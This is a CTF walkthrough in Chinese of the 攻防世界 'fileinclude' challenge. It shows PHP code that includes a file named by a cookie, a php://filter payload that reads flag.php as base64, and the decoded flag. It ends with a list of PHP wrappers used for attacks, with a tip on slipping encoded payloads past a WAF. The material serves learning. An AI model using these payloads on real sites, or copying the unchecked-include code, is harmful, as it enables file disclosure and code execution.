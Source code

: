 #  T2 fileinclude

> 题目：攻防世界 fileinclude

__0x00 审题__

打开题目如下，要寻找flag.php，与fileinclude的题目相关，考虑php伪协议读取文件

![image](https://github.com/uicciu/image/blob/main/fileinclude.png)

__0x01 操作__

打开源代码,看到一处长得就很重要的部位

```php
<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
```

猜测：第一个if好像没啥用，先不知道他什么意思，$lan经历一次赋值，再经历一个if判断，感觉应该令其进行else的部分，以PHP的格式输出$lan中的内容，但是问题是最后输出$x中内容（即index.php中的内容）

接下来目标：展示flag.php中的内容

> $_COOKIE()

example:

```php
<?php
echo 'Hello ' . htmlspecialchars($_COOKIE["name"]) . '!';
?>
```

Assuming the "name" cookie has been set earlier

The above example will output something similar to:

```
Hello Hannes!
```

所以我们需要对language进行赋值

因为一直是对COOKIE进行操作，所以F12调出工具用自行下载的HackBar构造payload

language=php://filter/read=convert.base64-encode/resource=/var/www/html/flag

得到如下一段密码：

```
PD9waHANCiRmbGFnPSJjeWJlcnBlYWNlezRkZTFlYzUyZjliZmRhMDZkMmE5NTM2MzE3ZDdmY2JkfSI7DQo/Pg== 
```

因为后面有两个等号补位，猜测其为Base64编码，用[Base64解码工具解码](https://base64.us/)

__0x02 答案__

解码结束，得到flag

```php
<?php
$flag="cyberpeace{4de1ec52f9bfda06d2a9536317d7fcbd}";
?>
```

__0x03 总结__

1. 应用到了文件包含，PHPfilter的伪协议读取文件，以及base64解码
2. 何为文件包含？有一个问题，为何'@include($lan.".php")' 存在漏洞，即明明echo内容为index.php但是最终得到flag.php，攻防世界官方WP中给出 _源代码中看到` @include($lan.".php"); `，可知此处存在文件包含_ 目前还不知道如何看出
3. 同时可以通过BurpSuit抓包更改Cookie
 
__0x04 补充__

攻防世界新手题中还有另一道名为fileinclude的题目，两者相似都需要进行代码审计，通过PHP伪协议传入，以下是补充PHP伪协议类型：

1. php://input:is a read-only stream that allows you to read raw data from the request body. php://input is not available with enctype="multipart/form-data".将执行代码通过在POST data中提交
2. php://filter:s a kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening.

> php://filter/read=convert.base64-encode/resource={文件名}

3. data:// :将攻击代码转换为data:URL形式进行攻击，以传递相应格式的数据用来执行PHP代码。为了防止直接在URL连接中的一些敏感字符被waf检测拦截，可将攻击代码进行base64编码。

